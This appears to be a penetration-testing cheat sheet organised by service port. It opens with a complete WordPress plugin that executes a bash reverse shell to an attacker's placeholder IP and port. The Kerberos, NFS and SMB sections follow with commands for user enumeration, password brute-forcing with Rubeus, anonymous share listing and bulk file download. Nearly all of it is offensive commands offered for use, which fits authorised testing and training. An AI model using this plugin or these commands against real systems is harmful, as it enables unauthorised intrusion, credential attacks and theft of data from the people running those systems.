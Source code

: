 If admin permissions are granted, upload a plugin with a reverse shell.

```shell
cat rs/rs.php
<?php
/*
Plugin Name: Reverse Shell
Plugin URI: http://your-site.com/
Description: A simple plugin to establish a reverse shell using /bin/sh.
Version: 1.0
Author: Pentester
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'") ?>

zip -r rs.zip rs
```

### Kerberos - 88

```shell
# enum users
kerbrute enumusers --dc <ip> -d <domain> <userlist>

# windows
.\Rubeus.exe brute /users:<userlist> /passwords:<wordlist> /domain:<domain>
```

### NFS - 111, 2049

```shell
# list mounts
showmount -e <ip>

# mount a share
mkdir nfsfolder
sudo mount -t nfs <ip>:/export/data nfsfolder
```

### SMB - 139, 445

```shell
# details about devices using netbios
sudo nbtscan -r <ip>/<range>

# nse
locate .nse | grep smb
nmap --script=<name> <ip>

# enum shares from windows
net view \\<host/IP> /all

# smbclient
smbclient -U '<domain>/<user>%<pass>' -L //<ip>
smbclient -U '' -L //<ip> # list shares anonymously
smbclient -U '' -N -L //<ip> # list by null session
smbclient -U '' //<ip>/share # access share
smbclient -U '<domain>/<user>%<pass>' -L //<ip>

# once inside, upload or download files
get <file>
put <file>
# or get entire folder (one-liner)
prompt OFF
recurse ON
mget *
```
